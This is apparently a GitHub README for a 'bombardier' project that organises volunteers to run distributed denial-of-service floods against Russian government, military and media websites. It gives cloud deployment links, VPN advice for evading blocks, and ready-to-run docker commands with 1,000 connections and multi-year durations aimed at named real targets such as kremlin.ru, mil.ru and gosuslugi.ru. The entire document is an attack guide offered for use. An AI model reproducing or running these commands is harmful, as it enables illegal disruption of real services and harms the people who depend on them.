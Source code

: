 # bombardier

Fight against propoganda

## CLOUD way :

### If you have kubertnetes cluster `./run_all_kuber.sh`

### GCP for not technical people (easiest)
https://www.notion.so/baaton/atack-php-d533b09a39a84c6db8007049627d03c6

### GCP for technical people
https://github.com/dotiful/bombardier/tree/main/gcp

### AWS with ec2 autoscaling
https://github.com/dotiful/bombardier/tree/main/aws

### Azure 
https://github.com/dotiful/bombardier/tree/main/azure

### Digital Ocean
[Kubernetes Docs](docs/digital_ocean_kubernetes.md) 

### Free russian VPN for Cloud VMs
[Setup instruction](docs/vpn_for_cloud_vms.md)


# Docker way
For a lot of resources or closed for Ukraine so please use Cloud way if cloud unavailable use VPN, otherwise it is not really work now.  
## Инструкция для пользователей Windows и Mac:

1. Установить Docker: https://www.docker.com/products/docker-desktop (Для Mac Пожалуйста, скачайте версию для правильного чипа)
2. Запустить докер и убедиться, что Docker Started
3. Зайти сюда https://github.com/dotiful/bombardier/blob/main/README.md
4. Для лучшего результата используйте ВПН and :
    - Psiphon: https://psiphon.ca/ (free)
    - Secure VPN: https://www.securevpn.com/ (free)
    - SurfShark: https://surfshark.com/ (paid)
    - Clear VPN: https://clearvpn.com/ (free)
    - Nord VPN: https://nordvpn.com/ (paid)
5. Запустить все цели из `resources.txt` для Windows в проводнике открываем `run_windows.bat` для Linux/Mac `./run_all_docker.sh` для целей из `resources.txt` (или `./run_all_docker.sh файл-с-целями`)
6. Для выполнения с конкретными целями - Скопировать скрипт (например `docker run -d --rm alpine/bombardier -c 1000 -d 60000h -l http://kremlin.ru`) и нажать энтер
7. Убедиться, что процесс пошёл
8. Ждать падения рашки

## Instruction for Windows and Mac:

1. Install Docker: https://www.docker.com/products/docker-desktop (For Mac please download the version for the correct chip)
2. Launch Docker and make sure that Docker is running
3. Navigate to https://github.com/dotiful/bombardier/blob/main/README.md
4. For best result use a VPN :
    - Psiphon: https://psiphon.ca/ (free)
    - Secure VPN: https://www.securevpn.com/ (free)
    - SurfShark: https://surfshark.com/ (paid)
    - Clear VPN: https://clearvpn.com/ (free)
    - Nord VPN: https://nordvpn.com/ (paid)
5. Use Windows Command Prompt or the Mac/Linux Terminal and launch as an admin.
6. Attack all targets from resources.txt for Windows - `run_windows.bat` for Linux/Mac `./run_all_docker.sh ` for `resources.txt` (or `./run_all_docker.sh your_aim_file`)
7. If you want select aims manually: `docker run -d --rm alpine/bombardier -c 1000 -d 60000h -l https://mid.ru` 
   (Open as many separate CMD consoles as many instances you are going to launch (each line – one script))
8. Make sure that the process started
9. Wait 'till russia fall


### Examples
`docker run -d --rm alpine/bombardier -c 1000 -d 600000h -l http://kremlin.ru`  
`docker run -d --rm alpine/bombardier -c 1000 -d 600000h -l https://mil.ru`  
`docker run -d --rm alpine/bombardier -c 1000 -d 600000h -l http://www.scrf.gov.ru`  
`docker run -d --rm alpine/bombardier -c 1000 -d 600000h -l https://ach.gov.ru`  
`docker run -d --rm alpine/bombardier -c 1000 -d 600000h -l https://epp.genproc.gov.ru`  
`docker run -d --rm alpine/bombardier -c 1000 -d 600000h -l https://www.gosuslugi.ru`  
`docker run -d --rm alpine/bombardier -c 1000 -d 600000h -l https://www.1tv.ru`  
`docker run -d --rm alpine/bombardier -c 1000 -d 600000h -l https://mid.ru`

### there are a lot of scripts for local usage
for unix  https://github.com/dotiful/bombardier/blob/main/run_all_docker.sh
for winodws https://github.com/dotiful/bombardier/blob/main/run_windows.bat
